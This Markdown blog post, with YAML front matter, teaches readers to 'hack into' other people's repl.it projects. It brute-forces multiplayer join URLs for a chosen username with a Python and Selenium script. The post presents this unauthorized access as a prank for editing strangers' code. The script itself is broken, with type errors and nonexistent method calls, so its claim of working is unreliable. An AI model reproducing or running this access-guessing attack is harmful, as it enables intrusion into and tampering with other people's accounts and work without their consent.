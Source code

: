 ```yaml
---
title: "How to Hack Into a Repl"
catalog: true
toc_nav_num: true
date: 04-20-2020 02:08:00
subtitle: Hack into people repls and edit them as if they are multiplayer!
header-img: "/img/article_header/article_header.png"
tags:
- Repl.it
- Hack
- hehe
- Hack repls
- AwesomeAg
catagories:
- hehe
- post
- AwesomeAg
- Hacks
- Repl.it
updateDate: 04-20-2020 3:00:00
top: 1

---
```

There is a website called [repl.it](https://repl.it) which is a inline compiler for coding. It supports many languages and is used by many people around the USA
There is a feature called multiplayer, where people can access repls as a group without forking (copying) them. This is used through a url with a code, like repl.it/join/an8digitcode-ausername or repl.it/join/h3fg824l-heheman
To get to the point, you can hack into other peoples repls by getting their username, and using a python code to generate random codes and going to a url with the code inserted, until it does not return a 404 error. We will use a simple method to check the 404 by checking if "404" or "not found" is in the title. **Important:** Be sure to [install the selenium webdriver here](https://chromedriver.storage.googleapis.com/index.html?path=83.0.4103.14/) before you run this code. Also, this code should preferably be run on replit, so upload the file there.
The code should match the following:
```python
# import all the modules
import random
from selenium import webdriver
#all the characters possible.
characters=[1,2,3,4,5,6,7,8,9,0,"a","b",'c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z']
#make a list so codes aren't used more than once
usedcodes=[]
#set the username
username = "usernamehere"
#start the loop
while True:
  #preset the code as nothing
  code=""
  #now to add characters to the code string
  for i in range(8):
    code= str(code+random.choice(characters))
    #make sure it's not already used
    if code not in usedcodes:
      #add the code
      usedcodes.append(code)
      #set url
      url = "https://repl.it/join/"+code+"-"+username
      #set driver
      driver = webdriver.Chrome("./chromedriver")
      #go to url
      website=driver.get(url)
      # check for 404
      if "404" in website.getTitle() or "not found" in website.getTitle().lower:
        pass
      else:
        #print success
        print("code seems to work! " + url)
        break
```
After running this code, you should be able to access one of the persons repls. Sadly, this does not work for finding specific repls, but you can keep running the code multiple times until you're done.
